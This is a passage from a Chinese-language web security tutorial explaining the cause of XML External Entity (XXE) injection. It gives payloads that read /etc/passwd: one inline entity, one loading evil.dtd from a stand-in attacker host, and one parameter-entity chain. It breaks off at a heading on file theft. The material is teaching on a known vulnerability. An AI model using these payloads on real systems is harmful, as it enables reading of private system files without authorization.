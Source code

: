 这个功能就是我们今天所讲的XXE的罪魁祸首，攻击者就是通过DTD外部实体声明来实现外部实体注入的。

### XML外部实体注入的产生原因

如果Web应用存在外部实体注入问题，那么攻击者可以构建负载如下：

```plain
<!DOCTYPE a [
     <!ENTITY b SYSTEM "file:///etc/passwd">
]>
<c>&b;</c>

```

如果页面解析了其中c标签的内容，并将它输出在Web页面上，那么攻击者就可以读取到隐私文件passwd里的内容，这是非常危险的。

当然攻击者也可以利用DTD文档引入外部DTD文档，然后再引入外部实体声明，这样需要的XML内容为：

```plain
<?xml version="1.0"?>
<!DOCTYPE a SYSTEM "http://evial_ip.com/evil.dtd">
<c>&b;</c>

```

其中外部的evil.dtd文件的内容为：

```plain
<!ENTITY b SYSTEM "file:///etc/passwd">

```

这样也是可以实现输出隐私文件passwd的功能。除此之外，攻击者还可以通过DTD外部实体声明引入外部实体声明，这有点类似于套娃了，不过它也是一种可行的方式，让我们一起来看看吧。

```plain
<?xml version="1.0"?>
<!DOCTYPE a [
    <!ENTITY % d SYSTEM "http://example.com/example.dtd">
    %d;
]>
<c>&b;</c>
#example.dtd的内容为
<!ENTITY b SYSTEM "file:///etc/passwd">

```

注意这里的%d，它是一个参数实体。Web应用在解析这个XML文件时，会首先将%d的值设置为example.dtd中的内容，然后调用%d，将example.dtd的运行结果赋予给b，并将它输出到标签<c>中。

以上内容就是XML外部实体注入的产生原因，下面我们一起来学习它有哪些危害吧。

## XML外部实体注入的危害

XML外部实体注入会有很多危害，例如隐私文件获取以及发起SSRF攻击。让我们看一下它的攻击方式。

### XXE隐私文件获取
